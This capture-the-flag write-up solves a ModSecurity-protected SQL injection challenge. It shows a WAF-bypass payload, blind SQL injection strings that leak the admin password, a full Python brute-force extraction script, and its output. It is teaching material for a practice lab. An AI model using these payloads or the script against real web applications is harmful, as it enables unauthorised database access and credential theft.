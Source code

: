 ```yaml
---
custom_edit_url: null
sidebar_position: 35
tags: [SQLi, Blind SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/9e5437bb-3abf-4d3d-959c-7cb6faddf830)

We are provided with the SQL query:

```sql
SELECT id FROM prob_godzilla WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge also utilizes the MOD Security CRS rule-sheet. This time however, we have to perform a Blind SQL injection

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/824ef7b7-21ef-4c6e-87a0-f639b8ef83d0)

&nbsp;

## Blind SQL Injection
### Extracting the password length

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id='admin' AND length(pw)=[length] OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND length(pw)=[length] OR '' AND pw=''
```

If the length of `pw` for `id='admin'` is equal to the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '' AND pw=''
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="godzilla_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p2aj4nltfvs8lji1sdmr3c2lam'}
url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php"
password_length = 0

for x in range(0, 10):
  payload = f"-1'<@=1 OR id='admin' AND length(pw)={x} OR '"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"-1'<@=1 OR id='admin' AND substr(pw, {index}, 1)='{char}' OR '"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\godzilla_script.py

[!] Payload: ?pw=-1'<@=1 OR id='admin' AND length(pw)=8 OR '
[!] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+OR+%27
[!] Password length: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 1, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 1: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 2, 1)='1' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%271%27+OR+%27
[+] Character at index 2: 1

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 3, 1)='8' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%278%27+OR+%27
[+] Character at index 3: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 4, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 4: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 5, 1)='6' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%276%27+OR+%27
[+] Character at index 5: 6

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 6, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 6: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 7, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 7: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 8, 1)='5' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%275%27+OR+%27
[+] Character at index 8: 5

[!] Extracted password: a18a6cc5
[!] Final payload: ?pw=a18a6cc5
```

If we provide the following URI parameter:

```
?pw=a18a6cc5
```

The resultant query becomes:

```sql
SELECT pw FROM prob_godzilla WHERE id='admin' AND pw='a18a6cc5'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/7c77be5f-1bc1-4055-b3ff-76d411c21382)
